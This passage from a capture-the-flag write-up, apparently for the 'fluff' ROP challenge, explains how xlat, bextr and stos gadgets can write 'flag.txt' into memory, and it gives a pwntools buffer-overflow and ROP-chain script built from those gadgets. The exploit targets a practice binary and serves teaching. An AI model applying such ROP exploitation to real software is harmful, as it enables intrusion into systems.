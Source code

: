 We'll need to set `rcx` such that when accounting for the addition of `0x3ef2` (instruction 40062c), it (when added to `al` later) represents an address for one of our `flag.txt` characters. This means we can't just put `flag.txt` to the stack, but we'll have to find the characters from within the binary or .so library file.

One other issue is since `[rbx + al]` is used to set `al` during the `xlat` instruction, we'll need to know what `al` is at first. Alternatively we can just set it to 0.
`ropper -f fluff --search 'mov eax, 0'`:
```
[INFO] File: fluff
0x0000000000400610: mov eax, 0; pop rbp; ret;
```

And putting all this together:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./fluff"
p = process(PROG_NAME)
elf = p.elf

if args.ATTACH:
    gdb.attach(p, '''break main''')

data_addr = 0x00601028
mov_eax_0_pop_rbp_addr = 0x00400610     # mov eax, 0; pop rbp; ret;
pop_rdi_addr = 0x004006a3               # pop rdi; ret;

pop_rdx_rcx_bextr_rbx_addr = 0x0040062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
xlat_ptr_rbx_addr = 0x00400628          # xlat BYTE PTR ds:[rbx]
stos_ptr_rdi_al_addr = 0x00400639       # stos BYTE PTR es:[rdi],al

p.recvuntil(b'> ')
payload = b'A' * (0x20 + 0x8)

# only need to set al (eax) to 0 once
# and set rdi to our .data address once
payload += p64(mov_eax_0_pop_rbp_addr)
payload += p64(1337)
payload += p64(pop_rdi_addr)
payload += p64(data_addr)

al = 0 # start at zero after out `mov eax, 0`
for i, c in enumerate('flag.txt'):
    char_addr = next(elf.search(c.encode()))
    payload += p64(pop_rdx_rcx_bextr_rbx_addr)

    # 0x4000 = 0100 0000 0000 0000
    # bits 7:0 starting index to copy = 0
    # bits 15:8 number of bits to copy = 64
    payload += p64(0x4000)

    # magic number and al will get added to address later
    payload += p64(char_addr - 0x3ef2 - al)
    payload += p64(xlat_ptr_rbx_addr)
    payload += p64(stos_ptr_rdi_al_addr)
    al = ord(c)

    # at this point *(.data+i) = c,
    # and rdi is incremented for next loop thanks to `stos`

# with our .data set up, we can call print_file
```